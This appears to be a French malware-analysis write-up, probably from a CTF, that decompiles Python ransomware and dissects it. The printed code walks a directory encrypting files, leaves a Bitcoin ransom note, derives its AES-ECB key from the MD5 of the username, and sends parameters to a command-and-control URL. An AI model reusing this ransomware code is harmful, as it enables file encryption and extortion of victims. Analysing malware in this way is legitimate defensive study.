 ```python
    if username in TARGETS:
        for directory, _, filenames in os.walk(TARGET_DIR):
            for filename in filenames:
                if filename.endswith('.hacked'):
                    continue
                fullpath = os.path.join(directory, filename)
                print('Encrypting', fullpath)
                lock_file(fullpath)

        with open(os.path.join(TARGET_DIR, 'READ_THIS.txt'), 'wb') as (fo):
            fo.write(b'We have hacked all your files. Buy 1 BTC and contact us at hacked@virus.com\n')


if __name__ == '__main__':
    lock_files()
```

Bien plus simple à analyser.

## Analyse du code python

Rien qu'avec les imports, on voit que le malware va faire de l'AES et probablement générer clé / iv de manière aléatoire. Ensuite, les variables globales peuvent interpeler:

* TARGET_DIR: le repertoire à chiffrer;
* C2_URL: l'url du serveur de command and control de l'attaquant, en l'occurence il n'existe pas / plus;
* TARGETS: une ribambelle de noms et prénoms.

La fonction qui va être intéressante est `lock_file(path)`. Les premières lignes vont servir à générer la clé AES:

```python
username = get_username()
hsh = hashlib.new('md5')
hsh.update(username)
key = hsh.digest()
```

La clé est donc le md5 du username. Les deux lignes suivantes servent à initialiser l'AES:

```python
cip = AES.new(key, 1) # AES ECB
iv = get_random_bytes(16)
```

Il faut de l'AES ECB avec comme clé le `md5(username)` et génère un vecteur d'initialisation (IV). Hors, l'AES ECB n'a pas d'IV. 

Les deux lignes suivantes envoient les paramètres AES au serveur de command and control:

```python
params = (('target', username), ('path', path), ('iv', iv))
requests.get(C2_URL, params=params)
```
